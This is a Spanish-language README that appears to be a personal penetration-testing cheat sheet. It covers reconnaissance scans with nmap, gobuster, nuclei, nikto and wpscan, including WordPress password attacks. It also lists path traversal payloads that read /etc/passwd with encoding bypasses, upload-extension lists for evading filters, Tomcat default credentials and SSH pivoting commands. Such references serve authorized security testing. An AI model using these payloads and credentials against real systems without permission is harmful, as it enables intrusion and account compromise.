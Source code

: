 
Mi repositorio sobre herramientas y configuraciones para la fase de reconocimiento de vulnerabilidades.


# Herramientas de escaneo
## Nmap
```shell
- nmap -sn <ip/24>
- nmap -sV -sT -O -p- <ip>
- nmap -sTCV <ip>
- nmap --script vuln <ip>
- nmap -f -sS -sV -Pn --script auth <ip>
- nmap -f -sS -sV -Pn --script default <ip>
```
#### Puertos UDP
```shell
- nmap -sU -sC --top-ports 100 <ip>
```
## Gobuster
```shell
- gobuster dir -u <url> -w /home/kali/Downloads/seclist/directory-list-lowercase-2.3-medium.txt -x php,html,txt
```
#### Realizar fuzzing
```shell
- gobuster fuzz -u https://example.com?FUZZ=test -w parameter-names.txt
```
## Nuclei
#### Escaneo de un solo objetivo
```shell
- nuclei -target https://example.com
```
#### Escaneo de varios objetivos
```shell
- nuclei -targets urls.txt
```
#### Network scan
```shell
- nuclei -target <ip>/24 
```
## Nikto
```shell
- nikto -h example.com
- nikto -h example.com -port 8083
- nikto -h example.com -maxtime number.of.seconds
```
## Wpscan
```shell
- wpscan --url <url>
```
### Ataque de diccionario
```shell
- wpscan --url <url> --passwords <ruta de diccionarios>
```
### Enumerar usuarios
```shell
- wpscan --url <url> --enumerate u 
```

# Path Traversal 
```shell
- file=../../../../../../../etc/passwd
- file=/etc/passwd
- file=....//....//....//etc/passwd
- file=..%252f..%252f..%252fetc/passwd
- file=/var/www/images/../../../etc/passwd
- file=../../../etc/passwd%00.png 
```

# Upload extensions

```shell
- PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
- Working in PHPv8: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp
- ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
- Jsp: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
- Coldfusion: .cfm, .cfml, .cfc, .dbm
- Flash: .swf
- Perl: .pl, .cgi
- Erlang Yaws Web Server: .yaws
```
# Tomcat default credentials

```shell
admin:admin

tomcat:tomcat

admin:

admin:s3cr3t

tomcat:s3cr3t

admin:tomcat
```
# Pivoting
### Local 
```shell
- ssh -L <puerto local>:127.0.0.1:<puerto remoto> <usuario>@<ip> 
```
### Remoto
```shell
- ssh -R <puerto local>:127.0.0.1:<puerto remoto> <usuario>@<ip> 
```
### Dinámico 
```shell
- ssh -D <puerto local que actuará como proxy> <usuario>@<ip> 
```

